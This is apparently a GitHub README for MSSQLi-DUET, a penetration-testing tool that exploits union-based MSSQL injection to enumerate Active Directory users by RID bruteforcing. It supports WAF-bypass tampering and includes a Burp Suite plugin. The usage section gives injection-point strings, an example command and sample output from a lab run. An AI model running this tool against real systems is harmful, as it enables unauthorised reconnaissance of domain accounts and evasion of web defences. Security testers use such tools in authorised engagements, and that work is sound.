# MSSQLi-DUET - MSSQL Injection-based Domain User Enumeration Tool

SQL injection script for MSSQL that extracts domain users from an Active Directory environment based on RID bruteforcing. Supports various forms of WAF bypass techniques through the implementation of SQLmap tamper functions. Additional tamper functions can be incorporated by the user depending on the situation and environment.

Comes in two flavors: straight-up `Python script` for terminal use, or a `Burp Suite plugin` for simple GUI navigation.

Currently only supports union-based injection. Planning to add other techniques later if possible. More samples and test cases are required to fully test tool's functionality and accuracy. Feedback and comments are greatly welcomed if you encounter a situation it does not work. Custom tailoring the script and plugin to your needs should not be too difficult as well.

## Burp Suite Plugin
After loading the plugin into Burp Suite, right-click on a request and send it to `MSSQLi-DUET`. More details on the parameters and such are described below.

<img src = "images/mssqli-plugin1.png" width='500'>

The request will populate in the request window, and only the fields above it need to be filled out. After hitting run the output will be placed in the results output box for easy copy pasting.

<img src = "images/mssqli-plugin2.png" width='500'>

## Python Script Usage
### Script Help
```
python3 mssqli-duet.py -h
usage: mssqli-duet.py [-h] -i INJECTION [-e ENCODING] -t TIME_DELAY -rid
                      RID_RANGE [-ssl SSL] -p PARAMETER [-proxy PROXY]
                      [-o OUTFILE] -r REQUEST_FILE

MSSQLi-DUET - MSSQL (Injection-based) Domain User Enumeration Tool

optional arguments:
  -h, --help            show this help message and exit
  -i INJECTION, --injection INJECTION
                        Injection point. Provide only the data needed to
                        escape the query.
  -e ENCODING, --encoding ENCODING
                        Type of encoding: unicode, doubleencode, unmagicquotes
  -t TIME_DELAY, --time_delay TIME_DELAY
                        Time delay for requests.
  -rid RID_RANGE, --rid_range RID_RANGE
                        Hypenated range of RIDs to bruteforce. Ex: 1000-1200
  -ssl SSL, --ssl SSL   Add flag for HTTPS
  -p PARAMETER, --parameter PARAMETER
                        Vulnerable parameter
  -proxy PROXY, --proxy PROXY
                        Proxy connection string. Ex: 127.0.0.1:8080
  -o OUTFILE, --outfile OUTFILE
                        Outfile for username enumeration results.
  -r REQUEST_FILE, --request_file REQUEST_FILE
                        Raw request file saved from Burp

Prepare to be enumerated!
```

### How to use
After identifying a union-based SQL injection in an application, copy the raw request from Burp Suite using the 'copy to file' feature.

Pass the saved request to DUET with the `-r` flag. Specify the vulnerable parameter and well as the point of injection. As an example, if the parameter "element" is susceptible to SQL injection, `-p` will be "element". DUET will build out all the SQL injection queries automatically, but specification for the initial injection needs to be provided. Meaning, if the injection occurs because of a single apostrophe after the parameter data, this is what would be specified for the `-i` argument. 
```
Ex: test' 
    test'))
    test")"
```

### Example
```
python3 mssqli-duet.py -i "carbon'" -t 0 -rid 1000-1200 -p element -r testrequest.req -proxy 127.0.0.1:8080
[+] Collected request data:
Target URL = http://192.168.11.22/search2.php?element=carbon
Method = GET
Content-Type = applcation/x-www-form-urlencoded


[+] Determining the number of columns in the table...
        [!] Number of columns is  3
[+] Determining column type...
        [!] Column type is null
[+] Discovering domain name...
        [+] Domain = NEUTRINO
[+] Discovering domain SID...
S-1-5-21-4142252318-1896537706-4233180933-

[+] Enumerating Active Directory via SIDs...

NEUTRINO\HYDROGENDC01$
NEUTRINO\DnsAdmins
NEUTRINO\DnsUpdateProxy
NEUTRINO\HELIUM$
NEUTRINO\BORON$
NEUTRINO\BERYLLIUM$
NEUTRINO\aeinstein
NEUTRINO\bbobberson
NEUTRINO\csagan
NEUTRINO\ccheese
NEUTRINO\svc_web
NEUTRINO\svc_sql
```

## References 
https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/
